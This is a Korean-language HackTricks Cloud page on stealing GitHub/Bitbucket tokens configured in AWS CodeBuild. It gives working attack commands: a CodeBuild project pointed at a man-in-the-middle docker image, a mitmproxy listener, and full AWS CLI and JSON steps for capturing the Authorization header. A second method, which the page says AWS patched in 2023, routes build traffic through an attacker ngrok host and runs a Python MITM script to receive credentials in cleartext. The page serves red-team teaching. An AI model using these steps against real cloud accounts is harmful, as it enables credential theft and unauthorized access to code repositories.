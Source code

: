 # AWS Codebuild - 토큰 유출

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>

## Github/Bitbucket 구성된 토큰 복구

먼저, 유출할 수 있는 소스 자격 증명이 구성되어 있는지 확인하세요:
```bash
aws codebuild list-source-credentials
```
### 도커 이미지를 통한 방법

계정에 Github 인증이 설정되어 있는 경우, Codebuild를 사용하여 프로젝트의 빌드를 실행하는 동안 해당 액세스(GH 토큰 또는 OAuth 토큰)를 **유출**할 수 있습니다.

이를 위해 새로운 Codebuild 프로젝트를 **생성**하거나 기존 프로젝트의 **환경을 변경**하여 **도커 이미지**를 설정할 수 있습니다.

사용할 수 있는 도커 이미지는 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)입니다. 이는 매우 기본적인 도커 이미지로, **`https_proxy`**, **`http_proxy`**, **`SSL_CERT_FILE`** 환경 변수를 설정합니다. 이를 통해 **`https_proxy`**와 **`http_proxy`**에 지정된 호스트의 대부분 트래픽을 가로채고, **`SSL_CERT_FILE`**에 지정된 SSL 인증서를 신뢰할 수 있게 됩니다.

1. **자체 Docker MitM 이미지 생성 및 업로드**
* 레포지토리의 지침에 따라 프록시 IP 주소를 설정하고 SSL 인증서를 설정하고 **도커 이미지를 빌드**합니다.
* 메타데이터 엔드포인트로의 요청을 가로채지 않도록 **`http_proxy`를 설정하지 마십시오**.
* `ngrok tcp 4444`와 같이 **`ngrok`**를 사용하여 호스트에 프록시를 설정할 수 있습니다.
* 도커 이미지를 빌드한 후, 이를 **공개 레포지토리**(Dockerhub, ECR...)에 **업로드**합니다.
2. **환경 설정**
* **새로운 Codebuild 프로젝트**를 생성하거나 기존 프로젝트의 환경을 **수정**합니다.
* 프로젝트를 **이전에 생성한 도커 이미지**를 사용하도록 설정합니다.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **호스트에서 MitM 프록시 설정**

* **Github 레포지토리**에 나와 있는대로 다음과 같이 설정할 수 있습니다:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
사용된 **mitmproxy 버전은 9.0.1**이었으며, 버전 10에서는 작동하지 않을 수 있다고 보고되었습니다.
{% endhint %}

4. **빌드 실행 및 자격 증명 캡처**

*   **Authorization** 헤더에서 토큰을 볼 수 있습니다:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

이 작업은 aws cli에서도 다음과 같이 수행할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP 프로토콜을 통한~~

{% hint style="success" %}
**이 취약점은 2023년 2월 20일 주간 중 어느 시점에 AWS에 의해 수정되었습니다 (아마도 금요일인 것 같습니다). 따라서 공격자는 이를 더 이상 악용할 수 없습니다 :)**
{% endhint %}

**CodeBuild에서 권한이 상승된 공격자는 구성된 Github/Bitbucket 토큰** 또는 권한이 OAuth를 통해 구성된 경우 **코드에 액세스하는 데 사용되는 임시 OAuth 토큰**을 유출시킬 수 있습니다.

* 공격자는 CodeBuild 프로젝트에 환경 변수 **http\_proxy**와 **https\_proxy**를 추가하여 자신의 기기를 가리키도록 설정할 수 있습니다 (예: `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 그런 다음, github 저장소의 URL을 HTTPS 대신 HTTP로 변경합니다. 예를 들어: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* 그런 다음, 프록시 변수 (http\_proxy 및 https\_proxy)가 가리키는 포트에서 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)의 기본 예제를 실행합니다.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 마지막으로, **프로젝트 빌드**를 클릭하면 **자격 증명**이 **base64로 암호화되지 않은 텍스트**로 mitm 포트로 전송됩니다:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
이제 공격자는 자신의 기기에서 토큰을 사용하여 CodeBuild 서비스를 직접 사용하는 것보다 더 쉽게 특권을 모두 나열하고 (남용)할 수 있습니다.
{% endhint %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* HackTricks에서 **회사 광고를 보거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 자신의 해킹 기법을 공유하세요.

</details>
